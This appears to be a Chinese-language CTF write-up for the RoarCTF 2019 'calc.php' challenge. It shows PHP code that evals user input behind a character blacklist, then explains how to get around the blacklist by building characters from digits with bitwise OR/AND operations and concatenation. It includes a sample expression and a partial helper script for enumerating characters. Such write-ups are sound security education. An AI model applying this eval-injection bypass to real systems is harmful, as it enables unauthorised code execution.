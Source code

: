 

### 非预期

calc.php提供源码：

```php
<?php 
error_reporting(0); 
if(!isset($_GET['num'])){ 
    show_source(__FILE__); 
}else{ 
        $str = $_GET['num']; 
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^']; 
        foreach ($blacklist as $blackitem) { 
                if (preg_match('/' . $blackitem . '/m', $str)) { 
                        die("what are you want to do?"); 
                } 
        } 
        eval('echo '.$str.';'); 
} 
?> 
```

由于全局waf的原因，构造payload时，能使用的字符有

```php
数字[0-9] + - * / E | () % {} . &  
```

输入过长的数字将会得到，并且我们还可以将使用'.'进行字符串的拼接。

![](/home/cookie/Pictures/blogs/2019roarCTF/1.png)



测出可以使用[0-9]|@可以得到字符[p-y]......

![](/home/cookie/Pictures/blogs/2019roarCTF/2.png)

同时经过测试,@如下：

```php
(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))
```

根据ASCII对应表：[传送门](<http://ascii.911cha.com/>)，我们通过**0x21-0x39|@构造出a-z的字符**，然后再通过'.'拼接.

我们最终都是要把我们所需的字符使用数字**[0-9]  + . E 使用  或(|)，与(&) 操作**来获得

字符通过如下脚本获取：

```php
#-*- coding: utf-8 -*-
#可用字符
a=['0','1','2','3','4','5','6','7','8','9','E','+','.']
b=[]
c=[]
d=[]

b1=[]
for i in a:
    for j in a:
        b.append(i+'或'+j+'-------'+chr(ord(i)|ord(j)))
        b1.append(chr(ord(i)|ord(j)))
print(set(b))

c1=[]
for i in a:
    for j in a:
        c.append(i+'与'+j+'--------'+chr(ord(i)&ord(j)))
```
